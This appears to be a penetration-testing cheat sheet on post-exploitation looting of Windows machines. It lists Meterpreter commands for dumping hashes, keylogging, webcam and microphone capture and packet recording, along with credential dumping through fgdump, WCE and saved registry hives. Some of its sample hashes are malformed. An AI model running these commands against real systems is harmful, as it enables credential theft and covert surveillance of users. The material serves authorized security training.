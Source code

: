 # Loot Windows


## Meterpreter

If you have a meterpreter shell you are able to do a lot of thing with very little effort.
If you do not have a meterpreter-shell you can always create a exploit with msfvenom. An elf or exe or other format to upgrade your shell.

Show help of all commands:
```
-h
```

**Dump windows hashes for further analysis**

```
hashdump
```

Keylogger

```
keysscan_start
keyscan_dump
keyscan_stop
```

**Mic and webcam commands**

```
record_mic     Record audio from the default microphone for X seconds
webcam_chat    Start a video chat
webcam_list    List webcams
webcam_snap    Take a snapshot from the specified webcam
webcam_stream  Play a video stream from the specified webcam
```


## Dumping passwords and hashes on windows

This most likely requires administrative rights, that's why the chapter is found here and not in priv-esc. Once you have a hash you can move on to the Password Cracking-chapter where we discuss different techniques of cracking hashes.

Windows stores passwords in SAM - Security Account Manager. Passwords are stored differently depending on the operating system. Up until (and including) Windows 2003 stored the passwords in LAN Manager (LM) and NT LAN Manager (NTLM). LM is incredibly insecure. From windows vista and on the system does not use LM, only NTLM. So it is a bit more secure.

**LM and NTLM >= Windows 2003**

**NTLM > Windows vista**

### LM Hashes

LM hashes can be really easy to crack. The LM part in the example below is the first part.

```
Administrator:500:FA21A6D3CF(01B8BAAD3B435B51404EE:C294D192B82B6AA35C3DFCA81F1F59BC:::
```

Example of NT

```
Administrator:500:NO PASSWORD*********************:BE134K40129560B46534340292AF4E72:::
```

### fgdump.exe

We can use `fgdump.exe` (`locate fgdump.exe` on kali) to extract NTLM and LM Password hashes. Run it and there is a file called 127.0.0.1.pwndump where the hash is saved. Now you can try to brute force it. 


### Windows Credencial Editor (WCE)

WCE can steal NTLM passwords from memory in cleartext!
There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

You can run it like this
```
wce32.exe -w
```


### Loot registry without tools

This might be a better technique than using tools like wce and fgdump, since you don't have to upload any binaries.
Get the registry:

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using `secretdump.py` or `pwdump`

### Pwdump 7

http://www.tarasco.org/security/pwdump_7/

## VNC

VNC require a specific password to log in to. So it is not the same password as the user password. If you have a meterpreter shell you can run the post exploit module to get the VNC password.

```
background
use post/windows/gather/credentials/vnc
set session X
exploit
```

## Tcp-dump on winfows

You can use meterpreter to easily take a tcp-dump, like this:

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Search for interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# Recursive search
dir /s
```



## References

This is a great post
https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/